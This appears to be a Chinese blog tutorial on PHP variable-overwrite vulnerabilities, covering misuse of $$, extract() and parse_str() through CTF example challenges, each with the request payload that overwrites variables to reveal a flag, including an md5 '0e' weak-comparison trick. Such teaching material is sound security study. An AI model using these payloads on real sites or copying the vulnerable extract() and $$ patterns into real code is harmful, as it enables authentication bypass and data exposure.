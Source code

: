 # php变量覆盖




> 可以用自定义的参数值替换原有变量值的情况称为变量覆盖漏洞



## 场景

- $$使用不当
- extract()函数使用不当
- parse_str()函数使用不当
- import_request_variables()使用不当
- 开启了全局变量注册
- ... ... 





## 1. $$导致的变量覆盖

> 经常在foreach中出现



使用foreach来遍历数组中的值，然后再将获取到的数组键名作为变量，数组中的键值作为变量的值

```php
<?php
    
//?name=test
//output:string(4) “name” string(4) “test” string(4) “test” test

$name='thinking';

foreach ($_GET as $key => $value)
    $$key = $value;
    var_dump($key);
    var_dump($value);
    var_dump($$key);

echo $name;

?>

```

例题：

```php

<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")

    die("BugsBunnyCTF is here :p…");

if ( !isset($_POST["flag"]) )
    die($_403);

foreach ($_GET as $key => $value)
	key = value;

foreach ($_POST as $key => $value)
    $$key = $value;

	if ( $_POST["flag"] !== $flag )
		die($_403);

	echo "This is your flag : ". $flag . "\n";

	die($_200);

?>
```







## 2. extract()函数导致的变量覆盖

**extract()** 该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。 

**语法：** `extract(array,extract_rules,prefix)`

```bash
extract 有三种形式可能导致变量覆盖:
第一种是第二个参数为EXTR_OVERWRITE,他表示如果有冲突，覆盖原有的变量。
第二种情况是只传入第一个参数，默认为EXTR_OVERWRITE模式。
第三种是第二个参数为EXTR_IF_EXISTS，他表示在当前符号表中已有同名变量时，覆盖它们的值,其他的都不注册新变量.
```



例题1

```php
<?php
$flag = 'xxx';
extract($_GET);

if (isset($gift)) {
   $content = trim(file_get_contents($flag));
   if ($gift == $content) {
       echo 'hctf{…}';
   } else {
        echo 'Oh..';
   }
} 
?>

    
    
//GET请求 ?flag=&gift=，extract()会将$flag和$gift的值覆盖了，将变量的值设置为空或者不存在的文件就满足$gift == $content。
//payload:
?flag=&gift=
```



例题2

```php
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
      <?php
        extract($_POST);
        if ($pass == $thepassword_123) { ?>
            <div class=”alert alert-success”>
                <code><?php echo $theflag; ?></code>
            </div>
        <?php } ?>
    <?php } ?>
    
    
//extract($_POST)会将POST的数据中的键名和键值转换为相应的变量名和变量值，利用这个覆盖$pass和$thepassword_123变量的值，从而满足$pass == $thepassword_123这个条件。
    
// POST Payload:
//pass=&thepassword_123=    
```











## 3. parse_str函数导致的变量覆盖

parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 

语法：`parse_str(string,array)`



例题1：

```php
<?php
error_reporting(0);

if (empty($_GET['id'])) {
    show_source(__FILE__);
    die();

} else {
    include ('flag.php');
    $a = "www.OPENCTF.com";
    $id = $_GET['id'];
    @parse_str($id);
    if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
        echo $flag;
    } else {
        exit('其实很简单其实并不难！');
    }
}
?> 
    
    
//0e123会被当做科学计数法，0 * 10 x 123。所以需要找到一个字符串md5后的结果是0e开头后面都是数字的，如，240610708，s878926199a  
//利用php弱语言特性,
    
//使用GET请求id=a[0]=240610708，这样会将a[0]的值覆盖为240610708，然后经过md5后得到
0e462097431906509019562988736854
与md5(‘QNKCDZO’)的结果0e830400451993494058024219903391比较都是0
所以相等，满足条件，得到flag。
最终PAYLOAD： 
GET DATA: 
?id=a[0]=s878926199a 
or 
?id=a[0]=240610708
```

















---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/php%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96/  

